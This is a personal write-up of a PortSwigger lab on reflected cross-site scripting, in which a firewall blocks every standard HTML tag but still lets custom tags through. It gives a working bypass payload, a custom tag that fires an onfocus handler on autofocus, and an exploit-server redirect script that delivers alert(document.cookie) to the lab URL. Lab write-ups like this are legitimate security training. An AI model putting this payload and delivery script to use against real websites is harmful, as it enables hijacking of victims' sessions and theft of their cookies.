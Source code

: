 #reflected-xss

Reflected XSS into HTML context with all tags blocked except custom ones: [link](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

This lab blocks all HTML tags except custom ones.

In the previous challenge, the WAF protected the web application by blocking most HTML tags. But in this challenge, the WAF blocks all tags except custom tags. However, it does not block attributes, which can still be used to trigger the vulnerability.

So I decided to use the following payload to exploit the web application:
`<customtag autofocus onfocus=alert(1) tabindex=1>`

Custom tags like `<customtag>` are *not normally focusable* by default so for that we use *tabindex=1*

I tested this payload on the exploit server.
```javascript
<script>

document.location = "https://0a3e00fb0302e68e807703d8002c0087.web-security-academy.net/?search=%3Ccustomtag+autofocus+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E";

</script>
```

and it works :).
